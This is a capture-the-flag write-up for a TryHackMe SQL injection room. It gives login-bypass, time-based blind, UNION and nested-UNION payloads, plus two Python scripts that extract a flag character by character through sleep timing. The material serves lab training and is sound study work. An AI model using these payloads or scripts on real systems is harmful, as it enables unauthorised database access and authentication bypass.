



---
---

# THM - SQHell


**<u>Flag 1 - Login Bypass</u>**


- When we try and register as admin - it confirms that the username is already taken:


- But we can't register anyways:


- We can bypass the login with a simple ' OR 1=1 -- remember the space after --
And use anything for password

- Flag 1:


**<u>Flag 2 - Time Based Blind - X-Forwarded-For (Logging IP)</u>**

- We get a hint:
*"Make sure to read the terms and conditions ;)"*

- Looking at the T&C - it gives a hint that they log your IP address


- The HTTP header used for this is **X-Forwarded-For**


- We can build our request by adding the header

- I tried a bunch of SQLi commands but nothing works...
But I then turned my focus to time based blind sqli

Normal basic ones didn't work but here:

[https://infosecwriteups.com/sql-injection-payload-list-b97656cfd66b](https://infosecwriteups.com/sql-injection-payload-list-b97656cfd66b)

We find a whole list of ones and I tested a few that works

- This Time based one worked for instance:

```bash
'AND (SELECT * FROM (SELECT(SLEEP(5)))bAKL) AND 'vRxe'='vRxe

```


- We can see the delay:


- To build on this query we can do:

```bash
' AND (SELECT sleep(5) from information_schema.tables where table_schema = "sqhell_1") and '1'='1

```



**<u>What we know:</u>**
We can see that this db name is sqhell_5. And since I enumerated flag 5 first, in sqhell_5 db.

We can assume that this flag is in the table "flag" as well

The flags start with THM

The length of the flags seem to be 42 characters

- We can test if this is the case:

```bash
' AND (SELECT sleep(5) FROM flag where SUBSTR(flag,1,1) = 'T') and '1'='1

```


(Upper or lowercase T, doesn't matter)

- Now that we know all this - we need to form a script to exploit this (or do it manually):


**<u>Script:</u>**

```python
import requests
import sys
import time
import string

def send_payload(ip, payload):
    start = time.time()
    try:
        header = {'X-Forwarded-For': "1" + payload}
        r = requests.get(f"http://{ip}/", headers=header)
        end = time.time()
        if end - start >= 1:
            return True
        else:
            return False
    except Exception as e:
        print("Error:", e)
        return False

def brute_flag(ip):
    sys.stdout.write("Dumping: ")
    sys.stdout.flush()
    flag = ""
    characters = string.ascii_uppercase + string.digits + "{}:"
    for i in range(1, 44):  # Assumes the flag length is 43 characters
        for j in characters:
            payload = f"' AND (SELECT sleep(1) FROM flag WHERE SUBSTR(flag,{i},1) = '{j}') AND '1'='1"
            if send_payload(ip, payload):
                flag += j
                sys.stdout.write(j)
                sys.stdout.flush()
                break
    sys.stdout.write("\n")
    sys.stdout.flush()
    return flag

def main():
    if len(sys.argv) != 2:
        print("Usage: python %s <ip>" % sys.argv[0])
        sys.exit(1)
    ip = sys.argv[1]
    flag = brute_flag(ip)
    print("Flag:", flag)

if __name__ == "__main__":
    main()

```

**<u>Flag 3 - Time Based Blind</u>**

- The registration page validates a username in real time:


- We can verify with the source code on the registration page:



- Capture the request in Burp:


- Nothing gets displayed so simple union isn't going to work

- I tried the same SQL time-based blind query from flag 2:

```bash
'AND (SELECT \* FROM (SELECT(SLEEP(5)))bAKL) AND 'vRxe'='vRxe

```
And it worked!

- So all we need to do is modify the script a bit:


**<u>Script:</u>**

```python
import requests
import sys
import time
import string

def send_payload(ip, payload):
    start = time.time()
    try:
        url = f"http://{ip}/register/user-check?username=admin{payload}"
        r = requests.get(url)
        end = time.time()
        if end - start >= 1:
            return True
        else:
            return False
    except Exception as e:
        print("Error:", e)
        return False

def brute_flag(ip):
    sys.stdout.write("Dumping: ")
    sys.stdout.flush()
    flag = ""
    characters = string.ascii_uppercase + string.digits + "{}:"
    for i in range(1, 44):  # assuming flag length = 43
        for j in characters:
            payload = f"' AND (SELECT sleep(1) FROM flag WHERE SUBSTR(flag,{i},1) = '{j}') AND '1'='1"
            if send_payload(ip, payload):
                flag += j
                sys.stdout.write(j)
                sys.stdout.flush()
                break
    sys.stdout.write("\n")
    sys.stdout.flush()
    return flag

def main():
    if len(sys.argv) != 2:
        print("Usage: python %s <ip>" % sys.argv[0])
        sys.exit(1)

    ip = sys.argv[1]
    flag = brute_flag(ip)
    print("Flag:", flag)

if __name__ == "__main__":
    main()

```


**<u>Flag 4 - SQL UNION Inception</u>**

Hint:
*"Well, dreams, they feel real while we're in them right?"*

- The only directory we haven't looked at is /user


- If we edit the query in Burp - we can actually use the simple UNION query to determine the number of columns:

```bash
union select 1,2,3 -- -

```
(No quote ' gets used because id is an int)


Although nothing gets displayed on the page

- The weird thing is, if we choose a user id that doesn't exist and we add the UNION query onto it:


**The "1" and "2" gets reflected in the page**

- So if we want to enumerate the database:

```bash
union select database(),2,3 -- -

```


- Using the UNION command on its own didn't work here:
union select 1,group_concat(flag),3 from flag -- -

- The hint is a quote from the movie **Inception**

- If we follow the hint and try to add a query inside a query:

```bash
union select "1 union select 1",2,3 -- -

```
It works but no posts are displayed




- If we build the UNION query like normal to determine the number of columns displayed:

```bash
union select "1 union select 1,2,3,4",2,3 -- -

```


When we get to 4 columns - another post field is displayed, reflecting the number 2

- If we now try to view the flag:

```bash
union select "1 union select 1,flag,3,4 from flag",2,3 -- -

```


**<u>Flag 5 - Error based (kind of)</u>**

- On the home screen, we get a blog with user posts:


- We can break the database on the post= parameter with a simple single quote **'** :


- We can see the SQL db being used (**MySQL**)

- Now we can test, since we know this isn't blind:
Using ORDER BY 5 breaks the db


- But ORDER BY 4 - works:


- So we know there are **4 parameters being displayed**

- But when we try and use UNION SELECT 1,2,3,4 - none of the numbers appear:


- If we go to a post that doesn't exist ie. post=0
We get a "Post not Found" error


- Now if we try UNION SELECT 1,2,3,4 again we get an output - we see that parameters 2 and 3 are displayed:


**<u>Enumeration:</u>**

- Using UNION SELECT 1,version(),database(),4 we can get the:
db name - **sqhell_5**

version (ubuntu) - **8.0.23**


- Building on that we can get the table names:

```bash
UNION SELECT 1,group_concat(table_name),3,4 from information_schema.tables where table_schema = "sqhell_5"

```


- **Can also use the INNODB_DATAFILES technique:**
**union all select 1,group_concat(PATH,"\n"),3,4 from information_schema.INNODB_DATAFILES**

- Query columns:

```bash
UNION SELECT 1,group_concat(column_name),3,4 from information_schema.columns where table_name = "flag"

```


- Get flag:

```bash
UNION SELECT 1,group_concat(flag),3,4 from flag

```

